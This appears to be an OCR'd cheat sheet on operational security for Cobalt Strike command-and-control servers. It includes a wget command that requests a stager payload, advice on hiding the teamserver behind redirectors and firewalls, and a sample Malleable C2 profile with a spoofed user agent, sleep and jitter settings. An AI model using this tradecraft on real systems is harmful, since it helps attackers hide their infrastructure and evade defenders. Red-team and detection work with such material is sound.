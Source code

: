 




$Cobalt Strike

#OpSec

	Don`'`t

		#   Use default self-signed HTTPS certificate [  ]
		#   Use default port (50050) [  ]
		#   Use 0.0.0.0 DNS response []
		#   Metasploit compatibility, ask for a payload : wget -U "Internet Explorer" http://127.0.0.1/vl6D []

	Do
 
		#   Use a redirector (Apache, CDN, ...) []
		#   Firewall to only accept HTTP/S from the redirectors []
		#   Firewall 50050 and access via SSH tunnel []
		#   Edit default HTTP 404 page and Content type: text/plain []
		#   No staging set hosts_stage to false in Malleable C2 []
		#   Use Malleable Profile to taylor your attack to specific actors []


# Sample Malleable C2

			root@?????:~# cat APT1337

set host_stage "false";
set sleeptime "34000";
set jitter    "21";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4063.0 Safari/537.36 Edg/82.0.439.1";

# Task and Proxy Max Size
set tasks_max_size "1048576";
set tasks_proxy_max_size "921600";
set tasks_dns_proxy_max_size "71680";
